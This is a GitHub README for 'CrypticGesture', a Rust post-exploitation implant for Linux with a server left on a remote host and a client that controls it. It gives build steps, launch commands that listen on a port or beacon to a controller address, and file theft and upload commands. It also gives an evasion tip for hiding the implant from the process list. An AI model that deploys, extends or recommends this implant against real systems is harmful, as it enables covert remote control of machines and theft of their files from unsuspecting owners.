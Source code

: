 # CrypticGesture
CrypticGesture is a post-exploitation Linux implant written in [Rust](https://www.rust-lang.org).  It consists of two executables, a server to leave on a remote host, and a client to interact with the remote server executable.

NOTE: The team using this tool is relatively small, so it's mainly been built to suit our needs.  If you notice any bugs or have feature requests, let us know :)

# Features
- Command execution.
- File Upload.
- File Download.
- Symmetric encryption using the Diffie-Hellman key excange method.
- Listening on arbitrary ports for incoming connections from the client.
- Beaconing at regular intervals to a configurable IP address.

# Build Instructions
NOTE: Requires Rust >= 1.6 [Downloads](https://www.rust-lang.org/downloads.html)
```
git clone https://github.com/defpoint/CrypticGesture
cd CrypticGesture/server
cargo build --release
cd ../client
cargo build --release
```
The client and server binaries should now be built.  They will be located at 
```
CrypticGesture/[client|server]/target/release/[crypticclient|crypticserver]
```
TIP: Rust will automatically download and compile external libraries, or [crates](http://doc.crates.io/guide.html), during compilation.

# Server Usage
The server reads its environment variables to know which port, IPv4 Address, and connection mode it will be using.  The following variables may be set:
- L - Instructs the server to listen on the interface associated with this IPv4 addressfor incoming connections from a client.
- C - Instructs the server to beacon back to this IPv4 address on regular configurable intervals.
- P - If the server is set to listen, it will bind to this port.  If the server is set to beacon out, this is the port it will attempt to connect to.
- B - If the server is set to listen, this is the number of seconds the implant will wait between each beacon.  Defaults to 15 minutes.

It is also advisable to set PATH=. when you start the server to avoid having ./server in your process list.  The server will re-set it's PATH variable once it is running.
Examples:

Listen for incoming connections on all interfaces on port 5555.
```
PATH=. L=0.0.0.0 P=5555 server
```

Beacon out to 192.168.2.1 every 30 minutes.
```
PATH=. B=1800 C=192.168.2.1 server
```

When executed, the server will automatically daemonize.

# Client Usage
The client is configurable with the following command line options:
- -h - Prints the available command line parameters and exits.
- -c - Attempts to connect to this IPv4 address.
- -l - Listens locally on this IPv4 address for incoming server beacons.
- -p - Port used for connecting to a remote server, or listening locally for incoming server connections.

NOTE: In order to retrieve files, the client expects there to be a local /storage directory that it can read and write to.

Once the client is connected, you will be at the following prompt:
```
Enter Command:
```

Note that this doesn't start a shell.  That means, no arrow keys, tab completion, pipe redirection, etc.  It's on the roadmap, but not finished for this initial release.  Commands can be executed as normal from this prompt, and their output will be printed to the screen.

CrypticGesture has three special commands:
- !get - Retrieve files from the remote host and store them in /storage.
```
!get /full/path/to/remote/file
```
- !put - Upload a local file to the remote host.
```
!put /full/path/to/local/file /full/path/to/remote/file
```
- !quit - Inform the server that you are ending the current session
```
!quit
```

#Road Map
- TCP tunneling.
- A more friendly command line experience without having to spawn a full shell.
- Ability to configure beacon intervals and callback addresses of a running server.
- Add configurable variations to the beacon interval.
- More communication methods (UDP, HTTP, etc.)

# Summary

CrypticGesture was deliberately created with minimal functionality to reduce filesize, code complexity, and to make it easier to integrate with other frameworks.

With some minor changes, CrypticGesture can be used on Windows, but the user experience is less than ideal, so it's not recommended at this time.

Finally, this is the first release of this tool, so if there are any bugs, let us know!
